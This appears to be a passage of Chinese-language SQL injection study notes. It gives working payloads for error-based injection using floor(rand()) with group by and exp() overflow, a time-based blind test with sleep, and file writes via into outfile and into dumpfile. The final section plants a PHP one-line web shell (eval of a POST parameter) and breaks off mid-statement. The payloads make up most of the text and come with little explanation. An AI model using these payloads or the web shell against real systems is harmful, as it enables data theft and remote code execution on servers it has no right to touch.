 
> #### floor():mysql中用来取整的函数
>
> > ```sql
> > id=1' union select count(*),floor(rand(0)*2) x from information_schema.schemata group by x
> > ```
> >
> > **爆当前数据库名**
> >
> > ```sql
> > id=1' union select count(*),concat(floor(rand(0)*2),database()) x from information_schema.schemata group by x
> > ```
>
> #### exp():此函数返回e(自然对数的底)指数X的幂值
>
> > 当传递一个大于 709 的值时，函数 exp() 就会引起一个溢出错误：
> >
> > · 得到表名：
> >
> > ![image-20220617212709601](image-20220617212709601.png)
> >
> > · 得到列名：
> >
> > ![image-20220617212721188](image-20220617212721188.png)



#### (4)延时报错

```sql
if(ascii(substr(“hello”, 1, 1))=104, sleep(5), 1)
```



#### （5）sql注入写文件函数

```sql
select '一句话' into outfile '路径' 

select '一句话' into dumpfile '路径'

select '<?php eval($_POST[1]) ?>' into dumpfile '
```


